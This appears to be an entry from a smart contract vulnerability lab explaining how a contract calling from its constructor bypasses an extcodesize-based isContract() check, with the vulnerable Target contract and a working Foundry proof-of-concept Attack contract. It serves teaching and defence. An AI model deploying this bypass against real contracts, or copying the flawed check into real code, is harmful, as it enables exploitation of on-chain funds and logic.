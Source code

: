 # Bypass isContract() validation  
[Bypasscontract.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Bypasscontract.sol)  
**Name:** Bypass isContract() validation

**Description:**  
The attacker only needs to write the code in the constructor of the smart contract
to bypass the detection mechanism of whether it is a smart contract.

**REF:**  

https://www.infuy.com/blog/bypass-contract-size-limitations-in-solidity-risks-and-prevention/  

**Target Contract:**  
```
contract Target {
    function isContract(address account) public view returns (bool) {
        // This method relies on extcodesize, which returns 0 for contracts in
        // construction, since the code is only stored at the end of the
        // constructor execution.
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}
```
****How to Test:****

forge test --contracts src/test/**Bypasscontract.sol**-vvvv  
```
// Function to test if the attack contract can bypass the target contract's check.
function testBypassContractCheck() public {
    // Log the current status of the target contract before the attack. 
    // This typically returns a boolean indicating if the contract has been compromised.
    console.log("Before exploiting, protected status of TargetContract:", TargetContract.pwned());

    // Create a new instance of the Attack contract and pass the address of the target contract to it. 
    // This starts the attack against the target contract.
    AttackerContract = new Attack(address(TargetContract));

    // Log the status of the target contract again after the attack.
    // If the attack was successful, the status should be different from the initial status.
    console.log("After exploiting, protected status of TargetContract:", TargetContract.pwned());

    // Log a statement indicating that the exploit process has been completed.
    console.log("Exploit completed");
}


// Attack contract that is created to exploit the target contract.
contract Attack {
    // Public boolean that keeps track if this contract is itself a contract.
    bool public isContract;

    // Public address variable to store the address of this contract.
    address public addr;

    // Constructor of the Attack contract that is triggered once when the contract is created.
    // It takes the address of the target contract as an argument.
    constructor(address _target) {
        // Call the isContract() function of the target contract, passing this contract's address.
        // This is usually a security check in the target contract to see if the caller is a contract.
        // But since this call is made in the constructor, the extcodesize check in isContract() will return false.
        isContract = Target(_target).isContract(address(this));

        // Assign this contract's address to the addr variable.
        addr = address(this);

        // Call the protected() function of the target contract, which is presumably protected against contract calls.
        // But due to the exploit in isContract() check, this call is successful.
        Target(_target).protected();
    }
}
```
**Red box:** 

The attacker only needs to write the code in the constructor of the smart contract to bypass the detection mechanism of whether it is a smart contract.

**Purple box:** issue fixed.  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F273d7caf-d1ec-435a-b60a-ef1dc2698ca1%2FUntitled.png?table=block&id=164fb814-62c9-4308-b378-aba274e06594&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)